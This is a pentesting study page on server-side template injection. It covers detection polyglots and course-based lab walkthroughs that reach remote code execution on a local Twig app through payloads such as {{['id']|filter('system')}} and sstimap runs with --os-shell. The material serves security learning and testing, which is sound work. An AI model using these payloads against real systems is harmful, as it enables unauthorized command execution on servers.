 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SSTI

{% hint style="info" %}
**Server-Side Template Injection (SSTI)** is a vulnerability where an attacker injects malicious template code into server-side templates, which is then executed by the server.
{% endhint %}

{% hint style="danger" %}
This can lead to remote code execution, data exposure, and unauthorized access, as attackers can manipulate the server-side template engine to run arbitrary code.
{% endhint %}

{% hint style="success" %}
Validate and sanitize all user inputs, avoid using untrusted data in templates, and restrict the template engine's features to limit the potential impact of injections.
{% endhint %}

> _**Template Engines** are used to display dynamically generated content on a web page. They replace the variables inside a template file with actual values and display these values to the client._&#x20;

## Identification

### Manual

We can use polyglots to induce errors. The **error polyglot** produces an error message to 44 template engines. However, errors might be caught by the application. The **non-error polyglots** are constructed in such a way that at least one of them does not throw an error, but renders the polyglot modified for all popular template engines.

```bash
# The error polyglot
<%'${{/#{@}}%>{{
# Non-error polyglots
">[[${{1}}]]
<%=1%>@*#{1}
{##}/*{{.}}*/
```

```
{7*7}
${7*7}
#{7*7}
%{7*7}
{{7*7}}
```

<figure><img src="../../../.gitbook/assets/ssti_portswigger_diagram.png" alt=""><figcaption><p>Figure 1: Identifying template engines (<em>image taken from</em> <a href="https://portswigger.net/web-security/server-side-template-injection"><em>here</em></a>).</p></figcaption></figure>

### Automatic

Tools like [TInjA](https://github.com/Hackmanit/TInjA), [SSTImap](https://github.com/vladko312/sstimap), and [j2ee-scan](https://github.com/PortSwigger/j2ee-scan) (Burp Pro) can automatically test for SSTI flaws by injecting combinations of special characters in template expressions (`${{<%[%'"}}%\`). Vulnerability indicators include:

* Thrown errors, revealing the vulnerability and potentially the template engine.
* Absence of the payload in the reflection, or parts of it missing, implying the server processes it differently than regular data.
* **Plaintext Context**: Distinguish from XSS by checking if the server evaluates template expressions.
* **Code Context**: Confirm vulnerability by altering input parameters. For instance, changing `greeting` in `http://vulnerable-website.com/?greeting=data.username` to see if the server's output is dynamic or fixed, like in `greeting=data.username}}hello` returning the username.

## Examples

### Twig

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

Following the methodology outlined [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#detection), we can see that we are dealing with a Twig engine (Figure 2).

```bash
# payload used
${{<%[%'"}}%\.
```

<figure><img src="../../../.gitbook/assets/web_ssti_twig_1.png" alt=""><figcaption><p>Figure 2: Using a polyglot to detecting the engine.</p></figcaption></figure>

We can also confirm that we are dealing with either a Twig or Jinja2 engine  by following the steps outlined on Figure 1 (Figure 3).

```bash
# payloads used
{{7*7}} # 49
{{7*'7'}} # 49
```

<figure><img src="../../../.gitbook/assets/web_ssti_basic_1.png" alt=""><figcaption><p>Figure 3: Testing for SSTI.</p></figcaption></figure>

To make sure that this is indeed an SSTI and not a client-side, we can view the source code and check if the result is `49` or `{{7*'7'}}`.

```html
<div>
    <hr><h3>Your message:</h3>49                </div>
</div>
```

Next, we can try any Twig-specific payload from this [list](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#twig) and achieve RCE[^1] (Figure 4).

```bash
# payloads used
{{['id']|filter('system')}}
{{['pwd']|filter('system')}}
```

<figure><img src="../../../.gitbook/assets/web_ssti_twig_2.png" alt=""><figcaption><p>Figure 4: Achieving RCE via an SSTI vulnerability.</p></figcaption></figure>

The above process could be automated using [`sstimap`](https://github.com/vladko312/SSTImap).

{% code overflow="wrap" %}
```bash
$ sstimap.py -u "http://localhost:81/ssti0x01.php" --data 'greeting=*' --engine twig --method POST
<SNIP>

[*] Loaded plugins by categories: languages: 5; legacy_engines: 2; engines: 17; generic: 3
[*] Loaded request body types: 4

[*] Scanning url: http://localhost:81/ssti0x01.php
[*] Testing if Body parameter 'greeting' is injectable
[*] Twig plugin is testing rendering with tag '*'
[+] Twig plugin has confirmed injection with tag '*'
[+] SSTImap identified the following injection point:

  Body parameter: greeting
  Engine: Twig
  Injection: *
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, php code

[+] Rerun SSTImap providing one of the following options:
    --interactive                Run SSTImap in interactive mode to switch between exploitation modes without losing progress.
    --os-shell                   Prompt for an interactive operating system shell.
    --os-cmd                     Execute an operating system command.
    --eval-shell                 Prompt for an interactive shell on the template engine base language.
    --eval-cmd                   Evaluate code in the template engine base language.
    --tpl-shell                  Prompt for an interactive shell on the template engine.
    --tpl-cmd                    Inject code in the template engine.
    --bind-shell PORT            Connect to a shell bind to a target port.
    --reverse-shell HOST PORT    Send a shell back to the attacker's port.
    --upload LOCAL REMOTE        Upload files to the server.
    --download REMOTE LOCAL      Download remote files.
```
{% endcode %}

### Twig (2)

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This time when we try different payloads they just print in the page. However, when we `Edit Card` and `Save Changes`, a `POST` request is generated (Figure 5).

<figure><img src="../../../.gitbook/assets/web_ssti_twig_3.png" alt=""><figcaption><p>Figure 5: A potential location for SSTI.</p></figcaption></figure>

When we inject the payload within the `Edit Card`, it gets executed (Figure 6).

<figure><img src="../../../.gitbook/assets/web_ssti_twig_4.png" alt=""><figcaption><p>Figure 6: Performing a successful SSTI.</p></figcaption></figure>

Next, we can use `sstimap` to achieve RCE[^2] (Figure 7).

{% code overflow="wrap" %}
```bash
$ sstimap.py -u "http://localhost:81/ssti0x02.php" --data 'cardHtml=*' --engine twig --method POST --os-shell
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/web_ssti_twig_5.png" alt=""><figcaption><p>Figure 7: Achieving RCE via an SSTI vulnerability.</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="Theory" %}
{% embed url="https://hackmanit.de/en/blog-en/178-template-injection-vulnerabilities-understand-detect-identify" %}
{% endtab %}

{% tab title="Engine-specific payloads" %}
{% embed url="https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection" %}
{% endtab %}

{% tab title="Engine-specific payloads" %}
{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection" %}
{% endtab %}

{% tab title="SSTI Table" %}
{% embed url="https://cheatsheet.hackmanit.de/template-injection-table/" %}
{% endtab %}
{% endtabs %}

[^1]: Remote Code Execution

[^2]: Remote Code Execution
